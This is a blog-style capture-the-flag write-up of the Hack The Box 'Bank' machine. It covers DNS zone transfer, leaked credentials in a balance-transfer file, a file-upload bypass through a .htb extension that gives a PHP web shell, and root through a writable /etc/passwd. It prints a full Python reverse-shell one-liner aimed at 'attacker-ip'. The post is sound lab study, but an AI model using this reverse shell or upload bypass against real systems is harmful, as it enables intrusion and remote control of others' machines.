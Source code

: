 ```yaml
---
title: bank
date: 2020-12-03 14:05:05 +/-TTTT
categories: [CTF, hackthebox]
tags: [file upload, dns, passwd]
---
```


![infocard](/assets/htb/bank/infocard.png)

bank is an easy box in which we have to do some domain enumeration to find website hosted on box.  bypass file upload restriction to get a shell on box. privs escalation is easy we have to just modify a file.

## Enumeration

So let's dive in, as always we start with a Nmap scan.

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-04 01:10 EST
Nmap scan report for 10.10.10.29
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```
Nmap shows that we have ssh, DNS, and webpage on the box. Let's start to enumerate the webpage. 

the webpage shows the default apache HTTP page. also, run gobuster but nothing interested found.

![webpage](/assets/htb/bank/webpage.png)

there is port 53 open so let's check for zone transfer.  there is no hint about host or domain lets try `bank.htb.`

![dig](/assets/htb/bank/dig.png)

we found `chris.bank.htb` `bank.htb` `ns.bank.htb` `www.bank.htb` . add them in `/etc/hosts` file.

chris.bank.htb ns.bank.htb and www.bank.htb redirected to default apache page. only bank.htb redirected to login page.

![login](/assets/htb/bank/login.png)

try to some default creds like admin:admin , admin:password, admin:bank, bank:bank but none of this work, also test for sqli but does not found sqli vulnerability.

Let's find out what directories are present using ffuf.

![dirscan](/assets/htb/bank/dirscan.png)

`uploads` return 403 forbidden, `assets` doesn't seem too interesting, `inc` has four PHP pages it also doesn't seem interesting.
`balance-transfer`  has a lot of `.acc` files which having encrypted username and password. but one file looks interesting because it has less size compare to all other files. and when I open it it has a plain text username and password for Chris.

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

## Gaining shell
using these creds log in to Chris's account. there is `support.php` which is tickets system and we can uploads files. try to upload PHP shell but it gives us an error that only image files can be uploaded. so I craft a file that has png mime type and PHP shell content and uploads it.

it accepts the file but the webserver does not treat it as a PHP file because of `.png` extension.

![fileupload](/assets/htb/bank/fileupload.png)

here I stuck for a while but after viewing the source code of the `support.php`  i found that it can accept `.htb` extension which executes as PHP code so create a new payload with `.htb` and upload it.

`<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->`

access the web shell in `bank.htb/uploads/test.htb`
got web-shell as `www-data`
 
![wwwshell](/assets/htb/bank/wwwshell.png)

used python to get reverse shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker-ip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

in chris's home directory found a user flag.

![user](/assets/htb/bank/user.png)

## Getting root

while enumerating box for privs I found that we can write into `/etc/passwd` file. 
![passwd](/assets/htb/bank/passwd.png)

so it's easy to get root on the box. just create another user with root privs and got root access.

![root](/assets/htb/bank/root.png)